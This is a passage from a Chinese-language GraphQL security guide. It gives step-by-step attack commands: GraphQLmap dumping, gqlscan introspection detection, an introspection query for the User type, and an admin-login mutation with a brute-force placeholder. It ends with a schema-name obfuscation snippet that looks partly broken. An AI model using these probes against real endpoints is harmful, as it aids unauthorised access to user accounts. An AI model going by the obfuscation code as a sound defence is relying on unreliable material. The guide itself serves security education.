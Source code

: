 #### 3.2.2 GraphQLmap渗透
交互式攻击终端：
```python
graphqlmap> dump new
graphqlmap> get type User
```

### 3.3 分步攻击示例
1. 检测内省开启状态：
```bash
gqlscan detect -u http://target.com/graphql
```

2. 提取敏感对象模型：
```graphql
query GetUserModel {
  __type(name: "User") {
    fields {
      name
      type {
        name
        ofType {
          name
        }
      }
    }
  }
}
```

3. 构造特权操作：
```graphql
mutation AdminLogin {
  login(input: {
    email: "admin@example.com", 
    password: "brute_force_here"
  }) {
    token
  }
}
```

## 四、防御对抗技术
### 4.1 动态混淆方案
实现schema随机化混淆：
```javascript
const { makeExecutableSchema } = require('@graphql-tools/schema');
const crypto = require('crypto');

function obfuscateSchema(schema) {
  const map = new Map();
  return schema.replace(/(type|interface|enum)\s+(\w+)/g, (m, p1, p2) => {
    const hash = crypto.createHash('sha1').update(p2).digest('hex').substr(0,8);
    map.set(p2, hash);
    return `${p1} ${hash}`;
  });
}
```
